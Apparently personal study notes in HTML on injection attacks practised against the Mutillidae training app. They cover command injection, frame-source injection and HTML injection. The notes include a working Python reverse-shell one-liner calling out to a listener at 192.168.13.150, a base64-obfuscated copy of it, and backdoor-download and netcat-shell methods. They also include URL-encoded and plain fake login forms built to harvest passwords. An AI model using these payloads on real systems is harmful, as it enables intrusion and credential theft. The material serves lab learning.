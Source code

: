 <h1>Other forms of Injection</h1>
<p>
	The purpose of injection remains the same , injecting into an interpreted context for causing the application to perform an unintended functionality.
</p>
<ol>
<li><h2>Command Injection:</h2>
<p> Command injection referes to the attack mechanism in which an attacker can inject any command into the 
underlying OS and compromise the back-end system. Mutillidae for me is hosted on a Linux server, so will be using UNIX commands for the same. Getting shell access on the underlying server system is often the jackpot to any attacker. We can create persistent backdoors with the help of metasploit.
</p>
<ul>
<li>
<h3>Method 1:</h3>
Download a php backdoor via wget using the command injection flaw
And then use that backdoor. 
Catch: /var/www should be writeable
If .htacess is modifiable, we can modify .htacess and make /var/www writeable
</li>
<li><h3>Method 2:Netcat shell</h3>
Use Netcat with <b>"-e"</b> option to allow for command execution after connect.
The -e executes whatever we place in after the parameter. In this case we want to spawn a 
bash shell on tcp connect. 
However, this option is not present on many traditional netcat installations
What to do in this case?
Well we can go for a custom shell in a language of our choice
</li> 
<li><h3>Method 3:Python shell(any language installed on backend)</h3>
Set up a listener on attacker machine
<code>
python -c "exec(\"import socket, subprocess;s = socket.socket();s.connect(('192.168.13.150',1234))\nwhile 1:  proc = subprocess.Popen(s.recv(1024), shell=True, stdout=subprocess.PIPE, stderr=subprocess.PIPE, stdin=subprocess.PIPE);s.send(proc.stdout.read()+proc.stderr.read())\")"
</code>
For obfuscation , we could also base64 encode and decode string
python -c "exec('aW1wb3J0IHNvY2tldCwgc3VicHJvY2VzcztzID0gc29ja2V0LnNvY2tldCgpO3MuY29ubmVjdCgo\n4oCYMTkyLjE2OC4xMy4xNTDigJksOTAwMCkpCndoaWxlIDE6ICBwcm9jID0gc3VicHJvY2Vzcy5Q\nb3BlbihzLnJlY3YoMTAyNCksIHNoZWxsPVRydWUsIHN0ZG91dD1zdWJwcm9jZXNzLlBJUEUsIHN0\nZGVycj1zdWJwcm9jZXNzLlBJUEUsIHN0ZGluPXN1YnByb2Nlc3MuUElQRSk7cy5zZW5kKHByb2Mu\nc3Rkb3V0LnJlYWQoKStwcm9jLnN0ZGVyci5yZWFkKCkp\n'.decode('base64'))"
</li>
<li><h3>Method-4: Meterpreter Shell</h3>
Deploying a Meterpreter shell is one way to create a well obfuscated persisitent backdoor to any OS we have shell acess on.How to create and deploy a meterpreter shell is a different and vast topic altogether.
</li>
</ul>
<li><h2>Frame Source injection</h2>
	Similar to a Remote file inclusion vulnerability. We can include any special characters once they  are URL encoded to cause an XSS attack on the site. We can include any iframe of our choice such as a malicious form and then steal user credentials or make cross-domain requests. We could inject a remote page into the src of the iframe.
	<p> iframe sources should never be allowed to be controlled by user input, as the iframe can load potential malware from other site. There are other security risks as well. I found this blog very helpful.
	<a href="https://stackoverflow.com/questions/7289139/why-are-iframes-considered-dangerous-and-a-security-risk?utm_medium=organic&utm_source=google_rich_qa&utm_campaign=google_rich_qa">Why Iframes pose a security risk?</a>
	We can corrupt the iframe src to load xss attacking page from our server or even an AJAX request to our site. We can inject this to the vulnerable parameter and let the fun unroll, or even a remote html page from the attacking server of our choice. 
	<code>
		%3Ch1%3ESession+Expired%3C%2Fh1%3E%0D%0A%3Cform+action%3D%22Marale%22%3E%0D%0A%3Cinput+type%3D%22password%22+name%3D%22password%22+placeholder%3D%22password%22%2F%3E%0D%0A%3Cinput+name%3D%22name%22+placeholder%3D%22name%22%2F%3E%0D%0A%3Cinput+type%3D%22submit%22%2F%3E%0D%0A%3C%2Fform%3E%3C%21--
	</code> 
</li>
<li><h2>HTML Injection </h2>
	When there is a vulnerability in the application which allow you to inject HTML into code.
	This can cause the client to visit a vulnerable "GET" URL and steal Non-http cookies or reveal csrf token to an attacker via an Ajax request. There are a multitude ways this can be exploited.
</br>
	Also, some of these require different contexts , such as those when modifying things such as the HTTP headers, as the victim will not change these to attack himself if the HTML injected is not stored but reflected back. In case of submissions via POST request, the POST requests now can be stored in a clickable link which can be visited via DATA URI.Also, if a site is vulnerable to HTMLi ,it most likely is vulnerable to Javascript Injection as well 
	<ul>
		<li><h3>Basic</h3>
		<p>Simple case, where the input fields visible are vulnerable to HTML injection. You may use any of the web pages, <b>"Add to your Blog"</b> is what I have exploited. Make sure not to use single quotes or else the SQL query will explode</p>
		<code>
<form action="/attacked">
<input name="user"/>
<input id='ps' type="password" name="pass"/>
<button type="submit">Register</button>
</form>
		</code>
	</li>
	<li>
		<h3>Via HTTP Headers</h3>
		<p>
			These exploits can work under a man in the middle the attack, or a clever manipulation of the iframe header to load the web page silently in the background. The target page here is DNS lookup page. We must always check the context and filters on the 
			Using Burp intercept the outgoing request.
		</p>
		<code>
		</code>
	</li>
	<li>DOM Manipulation</li>
	<li>Cookie Manipulation</li>
	<li>HTTP Parameter Pollution</li>
	</ul>
</li>



